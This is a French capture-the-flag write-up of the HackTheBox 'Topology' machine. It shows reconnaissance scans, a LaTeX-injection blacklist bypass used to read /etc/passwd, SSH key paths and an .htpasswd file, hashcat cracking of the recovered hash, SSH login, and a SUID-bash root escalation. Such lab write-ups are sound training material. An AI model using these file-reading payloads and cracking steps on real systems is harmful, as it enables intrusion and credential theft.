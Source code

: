   # Topology

	echo "10.10.11.217 topology.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.217 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.217 -oN nmap.txt
	feroxbuster --silent -u http://topology.htb

Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)  
	80/tcp open http Apache httpd 2.4.41

=> http://topology.htb/javascript
</br>=> http://topology.htb/portraits
</br>=> http://topology.htb/images

Rien de rien dans les sous-dossiers.

</br>Scans complémentaires pour le web : 

	gobuster dns -d topology.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
	ffuf -u http://topology.htb/FUZZ -w ~/wordlists/dirb_big.txt -e .pdf,.php,.txt,.ini,.conf,.log,.html,.js,.bak,.zip -fc 403
	dirb http://topology.htb/
	nikto -h http://topology.htb/
	
=> dev.topology.htb
</br>=> latex.topology.htb

</br>Sur la page d'accueil il y a un lien vers http://latex.topology.htb/equation.php qui semble être un outil de conversion de formules LaTeX en images.

	echo "10.10.11.217 dev.topology.htb" >> /etc/hosts
	echo "10.10.11.217 latex.topology.htb" >> /etc/hosts
	
Arrivé sur la page, je vois un champ nous permettant de rentrer des opérations en LaTeX. J'ai directement cherché des payloads pour les essayer : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection

En essayant de simples payloads comme "\input{/etc/passwd}" j'ai été renvoyé sur une URL de type http://latex.topology.htb/equation.php?eqn=%5Cinput%7B%2Fetc%2Fpasswd%7D&submit= indiquant "Illegal command detected. Sorry." 

En revanche le payload **"\lstinputlisting{/etc/passwd}"** passe mais amène sur une page blanche. Peut-être qu'il s'agit juste d'une simple liste noire de fonctions et que celle-ci n'est pas dedans.
</br>J'ai vu dans les documentations que l'on pouvait, et devait, enrober les expressions entre des "$"  pour passer en mode mathématique et interpréter les expressions. 

Et le payload **"\$\lstinputlisting{/etc/passwd}\$"** a fonctionné, j'ai bien eu une image avec le contenu du fichier : http://latex.topology.htb/equation.php?eqn=%24%5Clstinputlisting%7B%2Fetc%2Fpasswd%7D%24&submit=

Le seul utilisateur avec un shell de connexion est "vdaisley".
</br>Le principal problème est que ce traducteur ne prend que des expressions d'une ligne.
</br>Suite de l'exploitation : 

	$\lstinputlisting{/home/vdaisley/.ssh/id_rsa}$    # RIEN
	$\lstinputlisting{/home/vdaisley/.ssh/id_dsa}$    # RIEN
	$\lstinputlisting{/home/vdaisley/.ssh/id_ecdsa}$  # RIEN
	$\lstinputlisting{/etc/shadow}$                   # RIEN
	$\lstinputlisting{/var/www/index.html}$           # RIEN
	$\lstinputlisting{/var/www/latex/index.html}$     # RIEN
	$\lstinputlisting{/var/www/latex/equation.php}$   # OK
	$\lstinputlisting{/var/www/dev/index.html}$       # OK
	$\lstinputlisting{/var/www/dev/.htpasswd}$        # OK

Rien d'intéressant dans le code source PHP à part la confimartion que le filtre n'est qu'une petite liste noire incomplète. 

En revanche le fichier **.htpasswd** nous donne un identifiant et un mot de passe, qui au-delà de servir pour entrer sur la page http://dev.topology.htb pourrait aussi marcher en SSH : 

	hashcat -a 0 -m 1600 '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO' ~/wordlists/rockyou.txt
	...
	ssh vdaisley@10.10.11.217
	cat user.txt

### Élévation de privilèges : 

	find / -perm /4000 2>/dev/null
	/bin/bash -p
	cat /root/root.txt
	
